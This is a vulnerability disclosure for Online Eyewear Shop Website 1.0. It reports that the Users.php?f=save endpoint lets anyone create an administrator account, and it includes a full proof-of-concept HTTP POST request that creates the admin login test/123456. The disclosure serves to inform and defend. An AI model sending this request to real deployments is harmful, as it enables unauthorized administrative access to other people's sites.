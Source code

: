## Online Eyewear Shop Website has a Add any user at the front desk vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Users.php?f=save 

## Description:
Online Eyewear Shop Website1.0 has a Add any user at the front desk in /Users.phpf=save. An attacker can modify the vulnerability to register any administrator user and log in to the system.

Status: CRITICAL

POC
```
POST /oews/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------130096647026617135944608936
Content-Length: 1011
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/admin/?page=user/manage_user
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="id"


-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="firstname"

test
-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="middlename"

test
-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="lastname"

test
-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="username"

test
-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="password"

123456
-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="type"

1
-----------------------------130096647026617135944608936
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------130096647026617135944608936--
```

Add administrator user test directly in the front end
![CleanShot 2024-09-20 at 16 46 29@2x](https://github.com/user-attachments/assets/cda8ef82-948a-442b-b507-175fb176fc63)

You can log in directly via test/123456

![CleanShot 2024-09-20 at 16 48 48@2x](https://github.com/user-attachments/assets/e157e430-604e-4b0e-a67e-a7a8dc188029)

![CleanShot 2024-09-20 at 16 49 03@2x](https://github.com/user-attachments/assets/f1de6039-9867-4077-86c5-81c96fa2b7fe)




